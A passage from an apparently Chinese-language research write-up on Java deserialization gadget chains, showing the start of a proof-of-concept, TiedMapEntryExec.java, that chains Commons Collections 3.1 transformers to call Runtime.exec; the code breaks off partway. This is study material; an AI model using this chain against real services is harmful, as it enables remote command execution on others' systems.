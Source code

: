 8.4) TiedMapEntry利用链

这条利用链本质上是LazyMap利用链。

8.4.1) TiedMapEntryExec.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" TiedMapEntryExec.java
 * java -cp "commons-collections-3.1.jar:." TiedMapEntryExec "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

public class TiedMapEntryExec
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd         = argv[0];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
```